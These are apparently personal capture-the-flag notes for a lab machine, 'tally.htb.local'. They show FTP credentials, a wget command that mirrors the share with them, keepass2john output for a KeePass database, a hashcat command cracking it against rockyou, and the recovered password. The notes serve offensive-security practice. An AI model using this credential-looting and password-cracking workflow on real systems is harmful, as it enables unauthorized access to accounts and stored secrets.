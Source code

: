 # FTP movement

Creds: ftp_user:UTDRSCH53c"$6hys

![[Pasted image 20211116042655.png]]

Have a few folder, so  use the wget -- mirror to download all

```bash
$ wget --mirror 'ftp://ftp_user:UTDRSCH53c"$6hys@tally.htb.local
```

### Interisting files
* ./Intranet/Binaries/Firefox Setup 44.0.2.exe
* ./Tim/Files/tim.kdbx

### Cracking tim.kdbx
```bash
$ keepass2john tim.kdbx 
tim:$keepass$*2*6000*0*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
```

```bash
$ hashcat -m 13400 timhash.kdbx /usr/share/wordlists/rockyou.txt --force
```

Password: simplementeyo